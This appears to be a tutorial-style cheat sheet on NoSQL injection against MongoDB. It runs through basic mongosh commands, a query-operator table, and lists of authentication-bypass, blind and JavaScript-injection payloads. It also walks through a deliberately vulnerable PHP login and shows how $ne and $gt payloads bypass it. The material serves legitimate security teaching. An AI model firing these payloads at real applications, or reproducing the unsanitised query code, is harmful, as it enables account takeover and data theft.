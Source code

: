 MongoDB Usage
```

Alternative Queries
name: {$ne: 'doesntExist'}: Assuming doesntExist doesn't match any documents' names, this will match all documents.
name: {$gt: ''}: This matches all documents whose name is 'bigger' than an empty string.
name: {$gte: ''}: This matches all documents whose name is 'bigger or equal to' an empty string.
name: {$lt: '~'}: This compares the first character of name to a Tilda character and matches if it is 'less'. This will not always work, but it works in this case because Tilda is the largest printable ASCII value, and we know that all names in the collection are composed of ASCII characters.
name: {$lte: '~'}: Same logic as above, except it additionally matches documents whose names start with ~.

```
Connect to MongoDB: mongosh mongodb://127.0.0.1:27017

List databases: show databases

List collections: show collections

Insert data: db.collection.insertOne({...})

Insert lots of data: db.apples.insertMany([{...},{...},...])

Selecting data: db.collection.find({...})

Selecting one piece of data: db.collection.findOne({...})

Update (one) document: db.collection.updateOne({...}, {...})

Update multiple documents: db.collection.updateMany({...}, {...})

Delete document(s): db.apples.remove({...})
```
Query Operators
Type	Operator	Description	Example
Comparison	$eq	Matches values which are equal to a specified value	type: {$eq: "Pink Lady"}
Comparison	$gt	Matches values which are greater than a specified value	price: {$gt: 0.30}
Comparison	$gte	Matches values which are greater than or equal to a specified value	price: {$gte: 0.50}
Comparison	$in	Matches values which exist in the specified array	type: {$in: ["Granny Smith", "Pink Lady"]}
Comparison	$lt	Matches values which are less than a specified value	price: {$lt: 0.60}
Comparison	$lte	Matches values which are less than or equal to a specified value	price: {$lte: 0.75}
Comparison	$nin	Matches values which are not in the specified array	type: {$nin: ["Golden Delicious", "Granny Smith"]}
Logical	$and	Matches documents which meet the conditions of both specified queries	$and: [{type: 'Granny Smith'}, {price: 0.65}]
Logical	$not	Matches documents which do not meet the conditions of a specified query	type: {$not: {$eq: "Granny Smith"}}
Logical	$nor	Matches documents which do not meet the conditions of any of the specified queries	$nor: [{type: 'Granny Smith'}, {price: 0.79}]
Logical	$or	Matches documents which meet the conditions of one of the specified queries	$or: [{type: 'Granny Smith'}, {price: 0.79}]
Evaluation	$mod	Matches values which divided by a specific divisor have the specified remainder	price: {$mod: [4, 0]}
Evaluation	$regex	Matches values which match a specified RegEx	type: {$regex: /^G.*/}
Evaluation	$where	Matches documents which satisfy a JavaScript expression	$where: 'this.type.length === 9'
Authentication Bypass / Data Exfiltration Payloads:
URL-Encoded
param[$ne]=x
param[$gt]=
param[$gte]=
param[$lt]=~
param[$lte]=~
param[$regex]=.*
```

JSON
```
{param: {$ne: 'x'}}
{param: {$gt: ''}}
{param: {$gte: ''}}
{param: {$lt: '~'}}
{param: {$lte: '~'}}
{param: {$regex: '.*'}}
{param: {$nin: []}}
Blind NoSQLi Payloads:
URL-Encoded
param[$regex]=^XYZ.*$
JSON
{param: {$regex: '^XYZ.*$}}
Server-Side JavaScript Injection Payloads:
' || true || ''=='
" || true || ""=="
```
This cheat sheet contains a (non-comprehensive) list of payloads you may use when testing an application for NoSQL injection vulnerabilities. The most important qualities for finding vulnerabilities are creativity and the ability to adapt, so it is possible that these payloads will not work in your specific scenario, but something else does.

Some other resources you may want to refer to may be:

```
```
Code: php
...
if ($_SERVER['REQUEST_METHOD'] === "POST"):
    if (!isset($_POST['email'])) die("Missing `email` parameter");
    if (!isset($_POST['password'])) die("Missing `password` parameter");
    if (empty($_POST['email'])) die("`email` can not be empty");
    if (empty($_POST['password'])) die("`password` can not be empty");

    $manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
    $query = new MongoDB\Driver\Query(array("email" => $_POST['email'], "password" => $_POST['password']));
    $cursor = $manager->executeQuery('mangomail.users', $query);
        
    if (count($cursor->toArray()) > 0) {
        ...
We can see that the server checks if email and password are both given and non-empty before doing anything with them. Once that is verified, it connects to a MongoDB instance running locally and then queries mangomail to see if there is a user with the given pair of email and password, like so:
```
Code: javascript
db.users.find({
    email: "<email>",
    password: "<password>"
});
```
The problem is that both email and username are user-controlled inputs, which are passed unsanitized into a MongoDB query. This means we (as attackers) can take control of the query.

Many query operators were introduced in the first section of this module, and you may already have an idea of how to manipulate this query. For now, we want this query to return a match on any document because this will result in us being authenticated as whoever it matched. A straightforward way to do this would be to use the $ne query operator on both email and password to match values that are not equal to something we know doesn't exist. To put it in words, we want a query that matches email is not equal to 'test@test.com', and the password is not equal to 'test'.

Code: javascript
```
db.users.find({
    email: {$ne: "test@test.com"},
    password: {$ne: "test"}
});
```
Some other payloads that would work are:
```
email=admin%40mangomail.com&password[$ne]=x: This assumes we know the admin's email and we wanted to target them directly
email[$gt]=&password[$gt]=: Any string is 'greater than' an empty string
email[$gte]=&password[$gte]=: Same logic as above
```

PayloadAllTheThings - NoSQL Injection
HackTricks - NoSQL Injection
NullSweep - NoSQL Injection Cheatsheet

